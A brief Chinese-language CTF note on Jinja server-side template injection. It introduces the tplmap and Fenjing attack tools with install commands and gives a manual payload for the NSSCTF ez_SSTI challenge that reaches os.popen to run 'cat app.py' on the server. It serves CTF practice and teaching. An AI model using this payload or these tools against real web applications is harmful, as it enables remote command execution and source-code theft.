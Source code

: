 


----

### 工具辅助

#### 1. tplmap

*我是安装在kail上了，采用的是python2环境*

**官网：**  https://github.com/epinna/tplmap 

**具体安装讲解可以看这篇文章：** https://www.cnblogs.com/ktsm/p/15691652.html



#### 2. Fenjing（焚靖）

![img](https://gitee.com/bx33661/image/raw/master/path/fenjing.webp)



> 官方网站： https://github.com/Marven11/Fenjing?tab=readme-ov-file
>
> 焚靖是一个针对CTF比赛中Jinja SSTI绕过WAF的全自动脚本，可以自动攻击给定的网站或接口，省去手动测试接口，fuzz题目WAF的时间。

1. Python-pipx安装

```
# 首先使用apt/dnf/pip/...安装pipx
#pip install pipx
# 然后用pipx自动创建独立的虚拟环境并进行安装
pipx install fenjing
fenjing webui
# fenjing scan --url 'http://xxxx:xxx'
```

2. docker安装

```
docker run --net host -it marven11/fenjing webui
```

进入工具

![image-20240831123007941](https://gitee.com/bx33661/image/raw/master/path/image-20240831123007941.png)



----

### 题目实战

#### NSSCTF--[HNCTF 2022 WEEK2]ez_SSTI

1. 手工

Payload:

```
?name={{config.__class__.__init__.__globals__[%27os%27].popen(%27cat%20app.py%27).read()}}
```
